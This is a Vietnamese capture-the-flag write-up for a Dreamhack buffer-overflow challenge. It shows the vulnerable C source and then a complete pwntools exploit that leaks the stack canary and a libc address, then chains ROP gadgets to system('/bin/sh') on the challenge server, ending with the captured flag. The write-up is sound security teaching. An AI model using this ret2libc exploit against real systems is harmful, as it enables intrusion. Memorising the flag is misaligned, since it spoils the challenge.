


**1. Tìm lỗi**

Ta có file source như sau:

```
#include <stdio.h>
#include <unistd.h>

int main() {
  char buf[0x30];

  setvbuf(stdin, 0, _IONBF, 0);
  setvbuf(stdout, 0, _IONBF, 0);

  // Leak canary
  puts("[1] Leak Canary");
  printf("Buf: ");
  read(0, buf, 0x100);
  printf("Buf: %s\n", buf);

  // Do ROP
  puts("[2] Input ROP payload");
  printf("Buf: ");
  read(0, buf, 0x100);

  return 0;
}
```

Chương trình yêu cầu người dùng nhập vào đầu vào và in ra nội dung của đầu vào đó, cho phép kiểm tra việc leak canary. Sau đó, chương trình yêu cầu người dùng nhập vào ROP payload thông qua đầu vào và thực hiện ROP.

Chương trình khai báo biến `buf` là 0x30 nhưng cho phép nhập 0x100 byte -> Có lỗi `bof`

**2. Ý tưởng**

Đã rõ như nội dung code:
- Nhập làm sao để leak địa chỉ canary
- Sử dụng `ROPgadget` để điều hướng đến hàm thực thi

**3. Khai thác**

Đặt breakpoint sau lệnh `printf` để xem giá trị `canary` cách biến `buf` bao nhiêu:



Ta thấy địa chỉ `canary` cách địa chỉ chứa biến `buf` 0x38 byte. Nhưng ở đây giá trị canary có byte null ở cuối nên cần nhập tràn nó rồi trừ sau.

```
payload = b'a'*0x39
r.sendafter('Buf: ', payload)
r.recvuntil(b'a'*0x38)
leak_canary = u64(r.recv(8))
log.info("leak canary fake: " + hex(leak_canary))
canary = leak_canary - 0x61
log.info("canary: " + hex(canary))

```

Bây giờ đi kiếm các `gadget` để có thể khai thác:

```
pop_rdi = 0x00000000004007f3
ret = 0x000000000040055e
```

Ta chỉ kiếm được 2 `gadget` như trên là không đủ. Nên sẽ leak địa chỉ libc để lấy hàm `system` của libc. Ta có hàm `read` và `puts` nên sẽ tận dụng điều này để leak địa chỉ hàm `read`. Từ đó có thể tính toán địa chỉ libc và hướng chương trình trở lại hàm main.

```
payload = b'a'*0x38 + p64(canary) + b'a'*8
payload += p64(pop_rdi) + p64(read_got) + p64(puts_plt) + p64(main)
r.sendafter(b'Buf: ', payload)
read_leak = u64(r.recv(6) + b'\x00\x00')
log.info("read leak: " + hex(read_leak))
libc.address = read_leak - libc.sym['read']
log.info("libc leak: " + hex(libc.address))
```

Như vậy đã leak được địa chỉ canary và địa chỉ libc và hướng chương trình quay trở lại hàm main. Tiếp theo ở payload đầu nhập byte rác, payload thứ 2 sử dụng `ROPgadget` để hướng tới hàm thực thi

Ta có script như sau:

```
from pwn import *

exe = ELF('rop_patched', checksec = False)
#r = process(exe.path)
r = remote('host3.dreamhack.games', 11704)
libc = ELF('libc-2.27.so', checksec = False)

#input()
payload = b'a'*0x39
r.sendafter('Buf: ', payload)
r.recvuntil(b'a'*0x38)
leak_canary = u64(r.recv(8))
log.info("leak canary fake: " + hex(leak_canary))
canary = leak_canary - 0x61
log.info("canary: " + hex(canary))

pop_rdi = 0x00000000004007f3
ret = 0x000000000040055e
read_got = exe.got['read']
read_plt = exe.plt['read']
puts_plt = exe.plt['puts']
main = exe.sym['main']

payload = b'a'*0x38 + p64(canary) + b'a'*8
payload += p64(pop_rdi) + p64(read_got) + p64(puts_plt) + p64(main)
r.sendafter(b'Buf: ', payload)
read_leak = u64(r.recv(6) + b'\x00\x00')
log.info("read leak: " + hex(read_leak))
libc.address = read_leak - libc.sym['read']
log.info("libc leak: " + hex(libc.address))

payload = b'a'*0x38
r.sendafter('Buf: ', payload)

payload = b'a'*0x38 + p64(canary) + b'a'*8
payload += p64(pop_rdi) + p64(0)
payload += p64(pop_rdi) + p64(next(libc.search(b'/bin/sh')))
payload += p64(ret)
payload += p64(libc.sym['system'])
r.recvuntil(b'[2] Input ROP payload')
r.sendafter(b'Buf: ',payload)


r.interactive()
```

**4. Lấy flag**



`Flag: DH{68b82d23a30015c732688c89bd03d401}`